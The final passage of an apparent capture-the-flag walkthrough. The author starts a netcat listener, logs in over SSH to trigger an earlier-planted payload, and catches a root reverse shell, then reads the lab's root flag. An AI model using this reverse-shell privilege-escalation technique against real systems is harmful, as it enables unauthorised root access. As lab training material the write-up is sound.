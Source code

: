 and exit machine.

Right now, I run netcat in one terminal `sudo nc -lvnp 4444` and access it once again `ssh baksteen@10.10.32.31`

Once I type password in that window, a new session as root will open in second:

```
sudo nc -lvnp 4444                                                      
listening on [any] 4444 ...
connect to [10.9.170.47] from (UNKNOWN) [10.10.32.31] 49264
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)

# pwd
/
# ls /root
Maildir
flag.txt
# cat /root/flag.txt
   ___                        _        _      _   _             _ 
  / __|___ _ _  __ _ _ _ __ _| |_ _  _| |__ _| |_(_)___ _ _  __| |
 | (__/ _ \ ' \/ _` | '_/ _` |  _| || | / _` |  _| / _ \ ' \(_-<_|
  \___\___/_||_\__, |_| \__,_|\__|\_,_|_\__,_|\__|_\___/_||_/__(_)
               |___/ 

 (_)
  |--------------
  |&&&&&&&&&&&&&&|
  |    R O O T   |
  |    F L A G   |
  |&&&&&&&&&&&&&&|
  |--------------
  |
  |
  |
  |
  |
  |
 ---

Nice work!

This CTF was built with love in every byte by @berzerk0 on Twitter.

Special thanks to psf, @nbulischeck and the whole Fofao Team.

# 
```

Great one.